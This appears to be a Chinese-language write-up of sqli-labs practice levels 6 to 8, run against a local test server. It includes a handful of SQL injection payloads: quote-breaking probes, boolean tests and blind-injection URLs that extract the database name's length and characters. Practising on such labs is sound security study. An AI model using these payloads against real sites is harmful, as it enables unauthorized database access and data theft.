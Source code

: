 尝试`id=1"`（单引号到双引号😂），查找漏洞

```
http://127.0.0.1:8080/sqli-labs/Less-6?id=1"
```

![image-20220921011136429](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921011136429.png)

开始注入（第四题的单引号变双引号）

![image-20220921011359978](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921011359978.png)

## 第七关

尝试`'`，获取报错信息

![image-20220921012547956](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921012547956.png)

发现`'))and 1=1 --+`，添加注释尝试注入

![image-20220921012705231](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921012705231.png)

获取列数

![image-20220921012504522](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921012504522.png)

使用盲注，发现无论是正确的还是错误的都是680字节长

![image-20220921015614158](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921015614158.png)

![image-20220921015650495](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921015650495.png)

决定使用文本过滤

![image-20220921015944960](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921015944960.png)

执行python代码

![image-20220921020414634](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921020414634.png)

## 第八关

尝试`'and 1=1--+`和`'and 1=2--+`

![image-20220921091236279](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921091236279.png)

![image-20220921091247884](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921091247884.png)

发现可以盲注，且正确响应和非正确的响应长度不同

获取长度: http://127.0.0.1:8080/sqli-labs/Less-8/?id=2'and length(database())=*_*--+

获取database()：http://127.0.0.1:8080/sqli-labs/Less-8/?id=2'and substr(database(),1,1)=%27*_*%27--+
